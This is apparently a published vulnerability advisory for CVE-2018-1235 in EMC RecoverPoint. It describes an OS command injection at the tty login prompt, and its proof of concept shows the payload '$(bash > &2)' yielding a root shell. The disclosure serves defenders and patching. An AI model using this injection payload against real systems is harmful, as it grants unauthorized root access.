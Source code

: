 ## EMC RecoverPoint < 5.1.2/5.1.1.3 username command injection (local root exploit)

- Version: All versions before RP 5.1.2, and all versions before RP4VMs 5.1.1.3
- Date: 2018-06-21
- Vendor Advisory: DSA-2018-095
- Vendor KB: https://support.emc.com/kb/521234
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo/dell-emc_recoverpoint
- Website: https://www.foregenix.com/blog/foregenix-identify-multiple-dellemc-recoverpoint-zero-day-vulnerabilities
- Tested on: Tested on: RP4VMs 5.1.1.2, RP 5.1.SP1.P2
- CVE: CVE-2018-1235
- Exploit-db: https://www.exploit-db.com/exploits/44920/

## 1. Description
An OS command injection vulnerability exists in the mechanism which processes usernames which are presented for authentication, allowing unauthenticated root access via tty console login.

## 2. Proof of Concept

- Inject into local tty console login prompt

```
recoverpoint login: $(bash > &2)
root@recoverpoint:/# id
uid=0(root) gid=0(root) groups=0(root)
root@recoverpoint:/#
```

### Screenshot

![Local root exploit](Screenshot%20from%202018-02-21%2001-55-52.png?raw=true)

## 3. Solution:

Update to latest version of RecoverPoint
